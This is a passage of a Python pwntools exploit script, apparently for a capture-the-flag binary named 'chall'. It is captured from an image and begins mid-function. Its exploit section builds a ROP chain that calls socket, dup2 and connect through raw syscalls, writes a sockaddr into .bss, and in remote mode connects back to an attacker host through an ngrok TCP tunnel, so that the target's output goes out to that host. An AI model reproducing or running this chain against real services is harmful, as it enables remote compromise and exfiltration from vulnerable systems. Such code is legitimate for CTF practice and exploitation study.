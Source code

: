```python
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if args.QEMU:
        gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
        for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
            gdb_args.extend(["-ex", cmd])
        Popen(gdb_args)
    elif args.DOCKER:
        gdbscript = f'''
        init-pwndbg
        set sysroot /proc/{pid}/root
        c
        '''.format(**locals())        
        attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
    else:
        attach(io, gdbscript=gdbscript)


# =========================================================
#                         EXPLOITS
# =========================================================
def start_ngrok_tcp(port=8080):
    public_url = ngrok.connect(port, "tcp")
    log.success(f"{public_url}")
    _, address = str(public_url).split("://")
    ip, port = address.split('"')[0].split(":")
    return ip, int(port)

def exploit():
    global io
    io = initialize()
    offset = 0x10
    syscall = next(elf.search(asm("syscall ; ret")))
    mov_qword_ptr_rsi_rax = next(elf.search(asm("mov qword ptr [rsi], rax ; ret")))

    rop = ROP(elf)
    # socket(2, 1, 0)
    rop.rax = constants.SYS_socket
    rop.call(syscall, [2, 1, 0])

    # dup2(sockfd, 1)
    rop.rax = constants.SYS_dup2
    rop.call(syscall, [0, 1])

    if args.REMOTE:
        ip, port = start_ngrok_tcp(8080)
        ip = socket.gethostbyname('0.tcp.ap.ngrok.io')
    else:
        ip = '127.0.0.1'
        port = 8080

    sockaddr_struct = p16(2) + p16(socket.htons(port)) + p32(u32(socket.inet_aton(ip)))

    # arbitrary write sockaddr to bss
    rop.rsi = elf.bss()
    rop.rax = sockaddr_struct
    rop.raw(mov_qword_ptr_rsi_rax)

    # connect(sockfd, sockaddr, addrlen)
    rop.rax = constants.SYS_connect
    rop.call(syscall, [0, elf.bss(), 0x10])
```